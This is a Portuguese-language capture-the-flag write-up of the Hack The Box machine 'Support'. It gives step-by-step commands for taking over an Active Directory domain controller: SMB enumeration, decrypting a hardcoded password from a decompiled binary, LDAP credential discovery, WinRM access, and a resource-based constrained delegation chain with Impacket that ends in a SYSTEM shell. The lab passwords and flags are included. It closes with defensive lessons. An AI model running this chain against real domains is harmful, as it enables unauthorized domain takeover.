# Hack The Box — Support


---

# Informações da Máquina

| Nome | Dificuldade | Plataforma | OS |
| ---- | ----------- | ---------- | -- |
| Support | Easy | Hack The Box | Windows |

---

# Superfície de ataque

1. Enumeração inicial com Nmap
2. Identificação de Active Directory (DC + Kerberos + LDAP + SMB)
3. Enumeração de shares SMB com sessão anônima
4. Descoberta da share `support-tools` e download do binário `UserInfo.exe`
5. Decompilação do binário .NET com `ilspycmd`
6. Análise do código-fonte recuperado e identificação de senha hardcoded
7. Reconstrução da rotina de descriptografia (XOR + Base64) em Python
8. Recuperação da senha do usuário `ldap`
9. Consulta LDAP autenticada e descoberta da senha do usuário `support` no atributo `info`
10. Acesso via WinRM como `support`
11. Coleta de dados do AD com SharpHound
12. Análise no BloodHound — identificação de `GenericAll` sobre `DC$`
13. Exploração via **Resource-Based Constrained Delegation (RBCD)**
14. Pegada da flag de root via `psexec` Kerberos

---

# Reconhecimento

A enumeração inicial foi feita com Nmap para identificar portas abertas, versões dos serviços e possíveis vetores de ataque.

```
nmap -sC -sV -A -T4 10.129.55.108
```



O scan revelou um Domain Controller Windows com vários serviços típicos de Active Directory:

- **53/tcp — DNS**: Simple DNS Plus
- **88/tcp — Kerberos**
- **135/tcp — MSRPC**
- **139/tcp — NetBIOS-SSN**
- **389/tcp — LDAP**: `Domain: support.htb0.`
- **445/tcp — SMB**
- **464/tcp — Kpasswd**
- **593/tcp — RPC over HTTP**
- **636/tcp — LDAPS**
- **3268/tcp — Global Catalog (LDAP)**
- **5985/tcp — WinRM**

Com base na info do LDAP, foi possível identificar o domínio `support.htb` e o host `dc.support.htb`. O `/etc/hosts` foi atualizado:

```
10.129.55.108 dc.support.htb support.htb DC
```

---

# Enumeração SMB

Com SMB exposto, foi feita uma listagem das shares com sessão anônima:

```
smbclient -L //10.129.55.108/ -N
```



Além das shares padrão, foi identificada uma share customizada chamada `support-tools` com o comentário `support staff tools`. Foi feito acesso anônimo:

```
smbclient //10.129.55.108/support-tools -U Anonymous -N
```



A share continha vários binários portáveis utilizados pela equipe de suporte:

```
7-ZipPortable_21.07.paf.exe
npp.8.4.1.portable.x64.zip
putty.exe
SysinternalsSuite.zip
UserInfo.exe.zip
windirstat1_1_2_setup.exe
WiresharkPortable64_3.6.5.paf.exe
```

O arquivo mais interessante foi `UserInfo.exe.zip`, que parecia ser uma ferramenta interna customizada da equipe. Esse foi baixado para análise local.

```
smb: \> get UserInfo.exe.zip
```

---

# Análise do Binário UserInfo.exe

Após extrair o ZIP, foi identificado que `UserInfo.exe` era uma aplicação .NET. Para decompilar e recuperar o código-fonte, foi utilizado o `ilspycmd`:

```
ilspycmd -p -o decompiled UserInfo.exe
```



A decompilação gerou os arquivos C# originais da aplicação, incluindo a estrutura de namespaces e classes internas.

---

# Senha Hardcoded em Protected.cs

Durante a análise dos arquivos decompilados, foi encontrada a classe `Protected.cs` em `UserInfo.Services`, que continha uma senha cifrada juntamente com a chave usada na rotina de proteção:

```
cat decompiled/UserInfo.Services/Protected.cs
```



O código C# revelou:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E=";
private static byte[] key = Encoding.ASCII.GetBytes("armando");

public static string getPassword()
{
    byte[] array = Convert.FromBase64String(enc_password);
    byte[] array2 = array;
    for (int i = 0; i < array.Length; i++)
    {
        array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
    }
    return Encoding.Default.GetString(array2);
}
```

A rotina é simples:

1. Decodifica `enc_password` de Base64
2. Aplica XOR de cada byte com a chave `armando`
3. Aplica XOR adicional com o byte `0xDF`

---

# Recuperação da Senha em Python

A rotina foi reimplementada em Python para recuperar a senha em texto puro:

```
python3 - << 'EOF'
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E="
key = b"armando"

data = base64.b64decode(enc_password)
password = bytes([
    (data[i] ^ key[i % len(key)]) ^ 0xDF
    for i in range(len(data))
])
print(password.decode())
EOF
```



A senha recuperada foi:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Pelo nome do arquivo `LdapQuery.cs`, ficou claro que essa senha pertencia a uma conta `ldap`.

---

# Análise da LdapQuery.cs

O arquivo `LdapQuery.cs` confirmou que a aplicação fazia bind LDAP com a credencial `support\ldap`:

```
cat decompiled/UserInfo.Services/LdapQuery.cs
```



```csharp
string password = Protected.getPassword();
entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

Isso mostrou que existe um usuário `ldap` no domínio com a senha recuperada acima.

---

# Enumeração LDAP Autenticada

Com a credencial `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz` em mãos, foi possível fazer queries LDAP autenticadas no DC. A primeira tentativa foi enumerar contas do domínio.

Procurando por informações no atributo `info` (campo descritivo customizado):

```
ldapsearch -x -H ldap://10.129.55.108 \
  -D 'support\ldap' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b 'dc=support,dc=htb' \
  '(sAMAccountName=support)' '*'
```



A query retornou o objeto do usuário `support` com um campo bastante revelador:

```
info: Ironside47pleasure40Watchful
```

O atributo `info` continha a senha em texto puro do usuário `support`. Esse é um anti-padrão clássico em ambientes Active Directory, onde administradores armazenam senhas em campos de texto descritivos.

---

# Movimento Lateral — WinRM como support

Como o usuário `support` era membro do grupo `Remote Management Users` (visível também na saída LDAP em `memberOf`), foi possível fazer login via WinRM:

```
evil-winrm -i 10.129.55.108 -u support -p 'Ironside47pleasure40Watchful'
```



O acesso foi bem-sucedido, fornecendo uma shell PowerShell remota como `support`.

---

# Flag de Usuário

Com acesso como `support`, foi possível ler a flag de usuário:

```
PS C:\Users\support> cd Desktop
PS C:\Users\support\Desktop> type user.txt
```



```
b96cb011d9fce6c42f5ae4fa9625e4b9
```

---

# Coleta de Dados com SharpHound

Para mapear o ambiente Active Directory e identificar caminhos de escalação, foi feito o upload do `SharpHound.exe` para a máquina e executada a coleta:

```
*Evil-WinRM* PS C:\Users\support\Desktop> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Desktop> ./SharpHound.exe -c All --zipfilename support_data
```



A coleta foi concluída em poucos segundos:

```
Enumeration finished in 00:00:45.1418057
67 name to SID mappings
SharpHound Enumeration Completed
```

O arquivo `support_data.zip` foi baixado para o Kali com `download support_data.zip`.

---

# Análise no BloodHound

Após importar o ZIP no BloodHound CE, o usuário `support` foi marcado como Owned e o caminho de ataque foi visualizado.



O caminho identificado foi:

```
SUPPORT@SUPPORT.HTB --[MemberOf]--> SHARED SUPPORT ACCOUNTS --[GenericAll]--> DC.SUPPORT.HTB
```

O usuário `support` é membro do grupo `Shared Support Accounts`, que possui privilégio `GenericAll` sobre o objeto computer `DC$`. Esse privilégio permite a leitura/escrita de praticamente qualquer atributo do objeto, incluindo o atributo crítico `msDS-AllowedToActOnBehalfOfOtherIdentity`, base para o ataque de Resource-Based Constrained Delegation.

---

# Escalação de Privilégio — RBCD

A ideia geral do ataque de **Resource-Based Constrained Delegation** é:

1. Criar um objeto computer falso no domínio (qualquer usuário pode, dado o `MachineAccountQuota=10` padrão)
2. Configurar o atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` do `DC$` para permitir que o objeto fake atue em nome de outros usuários
3. Solicitar um TGS via S4U2Self + S4U2Proxy se passando por `Administrator`
4. Usar o ticket para autenticar como `Administrator` no DC

---

# Passo 1 — Criar Máquina Fake no Domínio

Com Impacket, foi criada uma máquina fake usando as credenciais do `support`:

```
impacket-addcomputer -computer-name 'FAKE01$' \
  -computer-pass 'FakePass123!' \
  -dc-ip 10.129.55.234 \
  'support.htb/support:Ironside47pleasure40Watchful'
```



Resultado:

```
[*] Successfully added machine account FAKE01$ with password FakePass123!
```

---

# Passo 2 — Configurar RBCD no DC$

Com a máquina fake criada, foi configurado o atributo de delegação no `DC$`:

```
impacket-rbcd -delegate-from 'FAKE01$' \
  -delegate-to 'DC$' \
  -action 'write' \
  -dc-ip 10.129.55.234 \
  'support.htb/support:Ironside47pleasure40Watchful'
```


Saída:

```
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKE01$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKE01$  (S-1-5-21-1677581083-3380853377-188903654-6101)
```

A configuração foi confirmada com a leitura do atributo:

```
impacket-rbcd -delegate-to 'DC$' -action 'read' \
  -dc-ip 10.129.55.234 \
  'support.htb/support:Ironside47pleasure40Watchful'
```

---

# Passo 3 — Solicitar TGS Impersonando Administrator

Com o RBCD configurado, foi possível usar a máquina fake para solicitar um TGS para o serviço `cifs/dc.support.htb` impersonando o usuário `Administrator`:

```
impacket-getST -spn 'cifs/dc.support.htb' \
  -impersonate 'Administrator' \
  -dc-ip 10.129.55.234 \
  'support.htb/FAKE01$:FakePass123!'
```

A operação executou as seguintes etapas:

1. Obteve um TGT para `FAKE01$`
2. Solicitou um TGS S4U2Self (`Administrator` -> `FAKE01$`)
3. Solicitou um TGS S4U2Proxy (`Administrator` -> `cifs/dc.support.htb`)
4. Salvou o ticket em `Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache`

---

# Passo 4 — Acesso ao DC como Administrator

O ticket foi exportado como variável de ambiente Kerberos e usado para autenticar via `psexec`:

```
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-psexec -k -no-pass dc.support.htb
```



```
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file mhlrHInX.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service RMHc on dc.support.htb.....
[*] Starting service RMHc.....

Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Shell SYSTEM/Administrator obtida no Domain Controller.

---

# Flag de Root

Com acesso administrativo ao DC, a flag final foi lida em `C:\Users\Administrator\Desktop\root.txt`:

```
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
```



```
bb3442b0343a5d2a27d89eee89fddb86
```

---

# Vulnerabilidades Identificadas

### Acesso Anônimo a Share SMB

A share `support-tools` permitia acesso anônimo, expondo binários internos da equipe que continham informações sensíveis. Shares com conteúdo proprietário não devem permitir sessão nula.

### Senha Hardcoded em Binário .NET

A aplicação `UserInfo.exe` armazenava a senha do usuário `ldap` de forma "ofuscada" usando XOR + Base64. Como o binário .NET é facilmente decompilado e a chave estava embutida no próprio código, a proteção é equivalente a armazenar a senha em texto puro.

### Senha em Texto Puro no Atributo `info` do AD

O atributo `info` do usuário `support` continha a senha em texto puro. Atributos descritivos do AD são consultáveis por qualquer usuário autenticado e nunca devem conter informações sensíveis.

### Privilégio `GenericAll` sobre o Domain Controller

O grupo `Shared Support Accounts` possuía `GenericAll` sobre o computer object `DC$`, permitindo configurar Resource-Based Constrained Delegation e impersonar qualquer usuário do domínio. Privilégios sobre objetos Tier 0 devem ser estritamente controlados.

### MachineAccountQuota Padrão

O atributo `MachineAccountQuota` permite que qualquer usuário autenticado crie até 10 máquinas no domínio. Isso é um requisito fundamental para o ataque de RBCD e deve ser definido como `0` em ambientes endurecidos.

---

# Ferramentas Utilizadas

- Nmap
- smbclient
- ilspycmd
- Python3
- ldapsearch
- evil-winrm
- SharpHound
- BloodHound CE
- Impacket (`addcomputer`, `rbcd`, `getST`, `psexec`)

---

# Principais Aprendizados

- Shares SMB com conteúdo customizado devem ser auditadas, mesmo quando aparentemente "internas".
- Binários compilados em .NET são facilmente reversíveis com ferramentas como `ilspycmd` ou dnSpy — credenciais nunca devem ser embutidas em código-fonte ou binários.
- Cifragem com chave hardcoded é apenas ofuscação, não criptografia. Qualquer atacante com acesso ao binário consegue replicar a rotina de descriptografia.
- Atributos descritivos do AD (como `info`, `description`, `comment`) são lidos por qualquer usuário autenticado e devem ser tratados como públicos.
- A análise com BloodHound é fundamental em ambientes Active Directory — privilégios indiretos via grupos podem revelar caminhos críticos não óbvios.
- `GenericAll` sobre um computer object equivale a controle total e é suficiente para configurar RBCD e impersonar qualquer principal.
- Resource-Based Constrained Delegation é um vetor moderno e poderoso de movimento lateral em AD que dispensa privilégios administrativos diretos.
- O `MachineAccountQuota` padrão habilita ataques como RBCD e deve ser zerado em ambientes hardenizados.
- Sincronização de tempo entre o atacante e o DC é crítica para Kerberos — `KRB_AP_ERR_SKEW` é um erro comum quando o relógio diverge mais de 5 minutos.

---

# Autor

https://github.com/ninjaa-exe
